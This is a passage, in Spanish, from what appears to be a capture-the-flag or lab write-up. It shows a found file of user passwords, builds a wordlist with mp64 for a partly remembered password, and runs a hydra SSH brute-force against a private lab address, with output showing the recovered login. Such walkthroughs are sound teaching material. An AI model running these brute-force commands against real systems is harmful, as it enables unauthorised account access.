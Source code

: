 ```
/usr/local/bin/passwords_users.txt
```

Y veremos que esta en esa ubicacion, si leemos el archivo pone lo siguiente.

```
User passwords:

e1i0t:eliotelmejor
an0n1mat0:XXyanonymous
root:root

There are some outdated passwords, but I don't remember an0n1mat0's entire password, I know that where the two
```

Nos comenta que la contraseña de este usuario esta a medias, por lo que tendremos que generar un diccionario sustituyendo esas dos X's por letras del abecedario minusculas, lo haremos con la siguiente herramienta.

### mp64

```shell
mp64 '?l?lyanonymous' > passwords.txt
```

Con esto habremos generado un diccionario de palabras con todas las posibles combinaciones de ese nombre sustituyendo `?l?l` por letras del abecedario en minusculas.

### hydra

```shell
hydra -l an0n1mat0 -P passwords.txt ssh://<IP> -t 64
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-08-13 11:21:07
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 676 login tries (l:1/p:676), ~11 tries per task
[DATA] attacking ssh://172.19.0.2:22/
[STATUS] 419.00 tries/min, 419 tries in 00:01h, 290 to do in 00:01h, 31 active
[22][ssh] host: 172.19.0.2   login: an0n1mat0   password: soyanonymous
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 15 final worker threads did not complete until end.
[ERROR] 15 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-08-13 11:22:48
```
